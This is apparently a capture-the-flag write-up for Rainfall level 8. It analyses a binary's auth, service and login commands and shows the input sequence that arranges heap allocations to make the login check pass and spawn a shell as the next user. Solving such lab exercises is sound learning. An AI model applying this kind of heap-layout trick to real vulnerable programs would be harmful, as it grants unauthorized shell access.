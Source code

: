 # Rainfall - Level 8

## Executable Analyse

```assembly
(gdb) info var
[...]
0x08049aac  auth
0x08049ab0  service
```


The program takes several input commands

- The `auth ` command is used to malloc the auth variable
- The `service` command is used to malloc the service variable
- The `login` command can open a shell and finish the exercise if `auth + 0x20` is not null

What we have to do to login is to produce a statement where  `service` address is allocated at least 0x20 (32 bits) further than `auth `.  

Note that malloc allocated 16bytes ranges each time `service` is called. So to get auth+32. We need to allocate 2 times service after allocate `auth `  .

```bash
$> ./level8 
(nil), (nil) 
auth 
0x804a008, (nil) 
service
0x804a008, 0x804a018 
service
0x804a008, 0x804a028 
login
$ whoami
level9
```